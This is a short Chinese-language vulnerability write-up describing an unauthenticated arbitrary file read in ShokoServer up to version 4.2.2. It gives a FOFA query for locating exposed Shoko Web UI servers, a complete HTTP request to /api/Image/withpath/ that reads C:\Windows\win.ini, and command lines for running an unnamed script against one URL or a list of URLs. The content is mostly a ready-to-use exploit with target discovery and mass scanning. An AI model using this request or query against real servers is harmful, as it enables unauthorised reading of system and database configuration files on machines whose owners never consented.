 # ShokoServer任意文件读取漏洞

### 1.漏洞描述

ShokoServer /apilmageithpath/接口处存在任意文件读取漏洞，未经身份验证得攻击者可通过该漏洞读取系统重要文件(如数据库配置文件、系统配置文件)、数据库配置文件等等，导致网站处于极度不安全状态。

### 2.影响范围

version <= 4.2.2

### 3.fofa语法

```plain
title="Shoko WEB UI"
```

### 4.漏洞复现

```plain
GET /api/Image/withpath/C:\Windows\win.ini HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719838883348-77178704-3f92-497d-84cb-62d95061e3cc.png)

### 5.py脚本

```plain
python3 360 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 360 脚本文件名 -f url.txt             # 测试多个url
```
